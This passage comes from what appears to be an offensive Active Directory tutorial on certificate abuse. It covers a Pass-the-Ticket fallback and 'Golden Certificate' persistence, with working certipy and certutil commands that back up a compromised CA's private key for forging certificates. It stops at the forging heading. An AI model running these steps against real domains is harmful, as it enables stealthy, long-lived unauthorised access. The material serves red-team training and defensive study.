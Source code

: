 **Cause:** Account uses smart card or doesn't have NT hash

**Solution:**
- Use TGT directly (Pass-the-Ticket)
- U2U attack may not work for all accounts
- Still successful - use Kerberos ticket!

---

## Advanced Exploitation

### Step 23: Golden Certificate Attack (Persistence)

**Golden Certificate = Forging certificates using CA's private key**

**Impact:**
- **Persistence:** Certificates valid for years
- **Stealth:** Harder to detect than golden tickets
- **Reliability:** Works even if passwords change

**Prerequisite:** Compromised CA server

---

#### Obtaining CA Certificate & Key:

**Method 1: From Compromised CA Server**

```bash
# If you have admin on CA server
certipy ca -u 'administrator@corp.local' -p 'Password123' \
    -target ca-server.corp.local \
    -backup

# Output:
# [*] Creating backup of 'CORP-DC01-CA'
# [*] Saved certificate to 'CORP-DC01-CA.pfx'
```

---

**Method 2: Manually Extract (Windows)**

**On CA server (as admin):**
```powershell
# Export CA certificate with private key
certutil -backupKey -p "password123" C:\Temp\CABackup

# Copy files:
# C:\Temp\CABackup\*.p12 → Attacker machine
```

---

#### Forging Golden Certificate:
